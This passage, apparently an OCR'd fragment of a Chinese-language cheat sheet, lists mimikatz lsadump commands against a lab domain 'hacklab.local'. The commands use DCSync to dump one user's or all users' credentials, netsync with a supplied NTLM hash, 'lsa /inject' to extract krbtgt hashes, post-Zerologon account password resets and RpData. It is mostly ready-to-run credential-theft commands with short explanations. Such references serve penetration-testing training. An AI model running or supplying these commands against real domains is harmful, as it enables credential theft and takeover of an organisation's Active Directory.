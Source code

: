 单个用户
```
mimikatz # lsadump::dcsync /domain:hacklab.local /user:hacklab\Administrator
```

所有用户
```
mimikatz # lsadump::dcsync /domain:hacklab.local /all
```

## netsync

请求目标计算机的rc4秘钥，需要dc主机的哈希
```
mimikatz # lsadump::netsync /dc:dc.hacklab.local /user:dc$ /ntlm:5b7ba7b6131a4aab1bbd60ba1a810e53 /account:win7$
```

## lsa

从内存中提取哈希值

```
mimikatz # lsadump::lsa /inject /name:krbtgt
```

> /inject : when run on a workstation, it will dump the LM and NT password hashes. When run on domain controller is will dump LM, NT, Wdigest, Kerberos keys and password history.


## packages
列出可用的windows身份验证机制

```
mimikatz # lsadump::packages
```

## postzerologon

> lsadump::postzerologon is a procedure to update AD domain password and its local stored password remotely mimic netdom resetpwd. Experimental and best situation after reboot

```
mimikatz # lsadump::postzerologon /target:192.168.0.10 /account:dc$
```

## rpdata

检索私人数据

```
mimikatz # lsadump::RpData
```

## sam
